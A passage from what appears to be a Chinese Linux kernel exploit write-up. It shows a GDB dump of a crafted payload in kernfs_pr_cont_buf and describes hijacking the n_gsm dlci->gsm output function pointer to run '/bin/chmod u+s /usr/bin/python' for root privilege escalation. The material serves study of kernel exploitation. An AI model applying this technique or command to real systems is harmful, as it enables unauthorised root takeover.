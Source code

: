 布局后查看 kernfs\_pr\_cont\_buf 的值

```plain
(gdb) x/400xg kernfs_pr_cont_buf
0xffffffff8336eac0 <kernfs_pr_cont_buf>:        0x0000000000000000      0x0000000000000000
0xffffffff8336ead0 <kernfs_pr_cont_buf+16>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eae0 <kernfs_pr_cont_buf+32>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eaf0 <kernfs_pr_cont_buf+48>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb00 <kernfs_pr_cont_buf+64>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb10 <kernfs_pr_cont_buf+80>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb20 <kernfs_pr_cont_buf+96>:     0x0000000000000000      0x0000000000000000
0xffffffff8336eb30 <kernfs_pr_cont_buf+112>:    0x642f630062006100      0x4343434343434343
0xffffffff8336eb40 <kernfs_pr_cont_buf+128>:    0x4343434343434343      0x4343434343434343
0xffffffff8336eb50 <kernfs_pr_cont_buf+144>:    0xffffffff81ffaee0      0x0000000000000000
0xffffffff8336eb60 <kernfs_pr_cont_buf+160>:    0x0000000000000000      0x0000000000000000
0xffffffff8336eb70 <kernfs_pr_cont_buf+176>:    0x6200610000000000      0x42424242642f6300
0xffffffff8336eb80 <kernfs_pr_cont_buf+192>:    0x4242424242424242      0xffffffff81ee8080
0xffffffff8336eb90 <kernfs_pr_cont_buf+208>:    0x4242424242424242      0x4242424242424242
0xffffffff8336eba0 <kernfs_pr_cont_buf+224>:    0xffffffff8391c588      0x6e69622f7273752f
0xffffffff8336ebb0 <kernfs_pr_cont_buf+240>:    0x7520646f6d68632f      0x2f7273752f20732b
0xffffffff8336ebc0 <kernfs_pr_cont_buf+256>:    0x687479702f6e6962      0x0000000000336e6f
0xffffffff8336ebd0 <kernfs_pr_cont_buf+272>:    0x0000000000000000      0x0000000000000000
```

然后劫持 dlci->gsm 到 kernfs\_pr\_cont\_buf，控制 dlci->gsm->output(gsm, ...) 函数指针调用为 run\_cmd("/bin/chmod u+s /usr/bin/python") 实现提权

​[![](assets/1706146490-4fc21c123a211ce9811924aacea5f780.png)](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122172723492-1277160919.png)​

## 总结
